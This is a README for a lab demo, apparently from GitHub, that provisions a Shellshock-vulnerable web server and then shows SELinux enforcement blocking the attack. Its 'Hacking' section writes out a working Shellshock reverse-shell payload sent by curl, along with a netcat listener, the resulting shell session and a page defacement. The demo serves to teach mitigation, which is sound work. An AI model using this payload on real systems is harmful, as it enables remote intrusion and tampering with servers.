 Shellshock
==========

Shellshock, also known as Bashdoor, is a family of security bugs in the widely used Unix Bash shell, the first of which was disclosed on 24 September 2014.

Many Internet-facing services, such as some web server deployments, use Bash to process certain requests, allowing an attacker to cause vulnerable versions of Bash to execute arbitrary commands.

This demo will show how to prevent security issues similar to shellshock by using SELinux

> NOTICE: More details about patching can be found on redhat website [here](https://access.redhat.com/security/vulnerabilities/shellshock#)

Pre-requisites
--------------

This demo was developed on GNU/Linux, my desktop distro is Fedora 28. All tools used will be described below:

* Fedora
* CentOS/RHEL
* Vagrant
* Libvirt/KVM
* Ansible
* netcat

Provisioning
------------

In order to make it possible to use this demo, you should first provision your environment after checkout this repo.

```bash
$ git clone https://github.com/fabiogoma/selinux-shellshock
$ cd selinux-shellshock
$ vagrant up
Bringing machine 'shellshock' up with 'libvirt' provider...
==> shellshock: Creating image (snapshot of base box volume).
==> shellshock: Creating domain with the following settings...
==> shellshock:  -- Name:              shell_shellshock
==> shellshock:  -- Domain type:       kvm
==> shellshock:  -- Cpus:              2
==> shellshock:  -- Feature:           acpi
==> shellshock:  -- Feature:           apic
==> shellshock:  -- Feature:           pae
==> shellshock:  -- Memory:            2048M
==> shellshock:  -- Management MAC:
==> shellshock:  -- Loader:
==> shellshock:  -- Base box:          centos/7
...
...
...
TASK [fabiogoma.shellshock : Ensure Apache HTTPD server is up] *****************
ok: [shellshock]

TASK [fabiogoma.shellshock : include_tasks] ************************************
included: /home/fabiom/demo/shell/provisioning/playbooks/roles/fabiogoma.shellshock/tasks/security.yml for shellshock

TASK [fabiogoma.shellshock : Ensure firewalld is up] ***************************
changed: [shellshock]

TASK [fabiogoma.shellshock : Enable http access] *******************************
changed: [shellshock]

TASK [fabiogoma.shellshock : Reload firewall rules] ****************************
changed: [shellshock]

PLAY RECAP *********************************************************************
shellshock                 : ok=25   changed=19   unreachable=0    failed=0
```

After provisioning your environment, you should be able to check a web page hosted by your new provisioned host, just navigate to http://shellshock.local/ on your prefered browser, you should see a page similar to the one below:

<p align="center">
  <img src="images/characters.png">
</p>

Hacking
-------

Let's now open two terminals and execute a hack.

On your first terminal, using the netcat tool (nc) initiate a socket listener on port 9999 with some verbosity:

```bash
$ nc -lkvp 9999
Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Generating a temporary 1024-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: 459E 024D BF1A BA99 7052 5697 87C1 BCE9 50BD 675C
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
```

Open a second terminal and now using curl, tell your http server to initiate a remote session on your local server listening on port 9999:

```bash
$ curl -k -H 'x: () { :;}; /bin/bash -i >& /dev/tcp/192.168.122.1/9999 0>&1' http://shellshock.local/cgi-bin/script

```

> NOTICE: After pressing enter, you will see no result, but the terminal will hang, waiting for a Ctrl+C to terminate the command. It will probably terminate by timeout, but your hacked session will be started already.

On your first terminal, you will see a new session runing:

```bash
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.121.104.
Ncat: Connection from 192.168.121.104:36908.
bash: no job control in this shell
bash-4.2$ pwd
pwd
/var/www/cgi-bin
bash-4.2$ cd ../html
cd ../html
bash-4.2$ pwd
pwd
/var/www/html
bash-4.2$ ls -l
ls -l
total 172
-rw-r--r--. 1 apache apache 36966 Sep 18 20:06 daphne.png
-rw-r--r--. 1 apache apache 32898 Sep 18 20:06 fred.png
-rw-r--r--. 1 apache apache   407 Sep 18 20:06 index.html
-rw-r--r--. 1 apache apache 43113 Sep 18 20:06 shaggy.png
-rw-r--r--. 1 apache apache 45709 Sep 18 20:06 velma.png
bash-4.2$ 

```

This is a new bash session running on your remote http server, whatever you do here, will immediatelly take efect on your server.

The expected result so far is the one we show below:

<p align="center">
  <img src="images/terminals-hacked.png">
</p>

Now let's hack the remote server by changing the index.html content

```bash
bash-4.2$ pwd
pwd
/var/www/html
bash-4.2$ echo "<h1>Hacked</h1>" > index.html
echo "<h1>Hacked</h1>" > index.html
bash-4.2$
```

The hacked page now should no longer show your cartoon characters, but the hacked content instead.

<p align="center">
  <img src="images/hacked.png">
</p>

Protecting your system
----------------------

Now let's start over by executing the provisioner again to return all configuration to the initial state

```bash
$ vagrant up --provision
Bringing machine 'shellshock' up with 'libvirt' provider...
==> shellshock: Running provisioner: ansible...
    shellshock: Running ansible-playbook...

PLAY [Provisioning shellshock demo host] ***************************************

TASK [Gathering Facts] *********************************************************
ok: [shellshock]

TASK [include_role : fabiogoma.common] *****************************************

TASK [fabiogoma.common : Disable IPV6] *****************************************
ok: [shellshock]

TASK [fabiogoma.common : Install EPEL repo] ************************************
ok: [shellshock]

TASK [fabiogoma.common : Install basic packages] *******************************
ok: [shellshock] => (item=[u'nss-mdns', u'net-tools', u'telnet', u'tcpdump', u'lsof', u'strace', u'wget', u'mlocate', u'setroubleshoot', u'setroubleshoot-server', u'policycoreutils-devel'])

TASK [fabiogoma.common : Configure mDNS] ***************************************
ok: [shellshock]

TASK [fabiogoma.common : Configure hostname] ***********************************
ok: [shellshock]
...
...
...
TASK [fabiogoma.shellshock : include_tasks] ************************************
included: /home/fabiom/demo/shell/provisioning/playbooks/roles/fabiogoma.shellshock/tasks/security.yml for shellshock

TASK [fabiogoma.shellshock : Ensure firewalld is up] ***************************
ok: [shellshock]

TASK [fabiogoma.shellshock : Enable http access] *******************************
ok: [shellshock]

TASK [fabiogoma.shellshock : Reload firewall rules] ****************************
skipping: [shellshock]

PLAY RECAP *********************************************************************
shellshock                 : ok=22   changed=1    unreachable=0    failed=0
```

> NOTICE: This time the provisioning will be much faster, since the only change happening now will be on the index.html file

Using vagrant let's change the SELinux state from permissive to enforcing

```bash
$ vagrant ssh
Last login: Tue Sep 18 20:27:11 2018 from 192.168.121.1
[vagrant@shellshock ~]$ getenforce
Permissive
[vagrant@shellshock ~]$ sudo setenforce 1
[vagrant@shellshock ~]$ getenforce
Enforcing
[vagrant@shellshock ~]$
```

Let's do the hack again and check the result on image below:

<p align="center">
  <img src="images/terminals-protected.png">
</p>

> NOTICE: You'll see now that you are no longer able to run a remote shell, this is due the fact of SELinux now is set to enforce security and your system will be protected.


Conclusion
----------------------

As you may have noticed, by enabling SELinux sysadmins can protect their systems from many security issues. 
Despite its advantages, most people disable SELinux as soon as they got the system up and running. If you want to learn more about the benefits and how to enable this tool, check [my other demo here](https://github.com/fabiogoma/selinux-nginx-tomcat).
